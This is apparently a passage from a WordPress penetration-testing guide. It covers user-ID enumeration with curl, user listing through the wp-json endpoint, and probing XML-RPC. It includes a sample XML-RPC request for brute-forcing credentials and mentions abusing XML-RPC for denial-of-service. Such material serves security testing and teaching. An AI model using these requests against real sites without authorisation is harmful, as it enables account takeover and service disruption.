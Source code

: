 You probably won't be able to find all the Plugins and Themes passible. In order to discover all of them, you will need to **actively Brute Force a list of Plugins and Themes** (hopefully for us there are automated tools that contains this lists).

### Users

#### ID Brute

You get valid users from a WordPress site by Brute Forcing users IDs:

```
curl -s -I -X GET http://blog.example.com/?author=1
```

If the responses are **200** or **30X**, that means that the id is **valid**. If the the response is **400**, then the id is **invalid**.

#### wp-json

You can also try to get information about the users by querying:

```
curl http://blog.example.com/wp-json/wp/v2/users
```

**Only information about the users that has this feature enable will be provided**.

Also note that _**/wp-json/wp/v2/pages** could leak IP addresses\*\*.\*\*_

### XML-RPC

If `xml-rpc.php` is active you can perform a credentials brute-force or use it to launch DoS attacks to other resources. (You can automate this process[ using this](https://github.com/relarizky/wpxploit) for example).

To see if it is active try to access to _**/xmlrpc.php**_ and send this request:

#### Check

```markup
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

![](https://h3llwings.files.wordpress.com/2019/01/list-of-functions.png?w=656)

#### Credentials Bruteforce

_**wp.getUserBlogs**_, \_**wp.getCategories** \_ or _**metaWeblog.getUsersBlogs**_ are some of the methods that can be used to brute-force credentials. If you can find any of them you can send something like:

```markup
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```
